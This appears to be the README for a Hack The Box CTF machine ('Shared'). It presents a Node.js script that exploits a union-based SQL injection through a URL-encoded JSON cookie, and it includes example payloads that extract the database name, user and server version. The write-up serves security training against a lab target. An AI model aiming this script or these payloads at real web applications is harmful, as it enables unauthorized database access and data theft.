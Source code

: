 # Hack The Box. Machines. Shared

Machine write-up: https://7rocky.github.io/en/htb/shared

### `sqli.js`

This script built in Node.js is used to exploit a Union-based SQLi. The injection comes into place in a cookie called `custom_cart`, where we have a JSON document that is URL encoded.

This is the main function (`sqli`):

```js
const sqli = payload => {
	payload = encodeURIComponent(JSON.stringify({ [payload]: 1 }))

	const headers = {
		Cookie: `custom_cart=${payload}`,
		Host: 'checkout.shared.htb'
	}

	const req = https.request({...options, headers}, res => {
		let body = ''

  	    res.on('data', data => (body += data))
  	    res.on('end', () => console.log(parseBody(body)))
	})

	req.on('error', console.error)
	req.end()
}
```

The response body is parsed using a regular expression:

```js
const parseBody = body => body.match(/<td>([\s\S]*?)<\/td>/)[1]
```

To use the script, we need to add the SQLi payload as a command line argument:

```js
if (process.argv.length !== 3) {
	console.error('Usage: node sqli.js "<sqli-payload>"')
	process.exit(1)
}

sqli(process.argv[2])
```

This is an example of usage:

```console
$ node sqli.js "' union select 1,database(),3-- -"  
checkout

$ node sqli.js "' union select 1,user(),3-- -"
checkout@localhost

$ node sqli.js "' union select 1,version(),3-- -"
10.5.15-MariaDB-0+deb11u1
```
